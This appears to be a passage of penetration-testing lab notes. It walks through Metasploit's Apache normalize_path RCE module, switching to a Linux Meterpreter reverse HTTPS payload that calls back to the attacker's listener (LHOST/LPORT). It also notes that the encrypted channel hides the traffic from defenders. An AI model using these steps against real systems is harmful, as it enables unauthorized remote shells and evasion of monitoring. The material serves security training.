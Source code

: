 + Above shows that we successfully uploaded _unix-privesc-check_ to the target machine
+ If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like "`\\`"

So far, we've used the _linux/x64/meterpreter_reverse_tcp_ payload in this section to explore various features of Meterpreter
+ Before we head into the next section, let's use another 64-bit Linux Meterpreter payload
+ Therefore, we exit the current session and use **show payloads** in the context of the exploit module again:
```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.50.16 - Meterpreter session 4 closed.  Reason: User exit

msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads

Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   ...
   10  payload/linux/x64/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   ...
```
+ Above shows that index 10 is _payload/linux/x64/meterpreter_reverse_https_. Instead of a raw TCP connection, this payload uses HTTPS to establish the connection and communication between the infected target and our Kali machine
+ As the traffic itself is encrypted with SSL/TLS, defenders will only obtain information about HTTPS requests
+ Without further defensive techniques and technologies, they will be unlikely to decipher the Meterpreter communication

Let's select this payload and display its options
```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 10
payload => linux/x64/meterpreter_reverse_https

msf6 exploit(multi/http/apache_normalize_path_rce) > show options

...

Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.119.2    yes       The local listener hostname
   LPORT  4444             yes       The local listener port
   LURI                    no        The HTTP Path

...
```
+ Above shows there is an additional option for this payload named _LURI_
+ This option can be used to leverage a single listener on one port capable of handling different requests based on the path in this option and provide a logical separation
+ If we leave this option blank, Metasploit just uses **`/`** as path
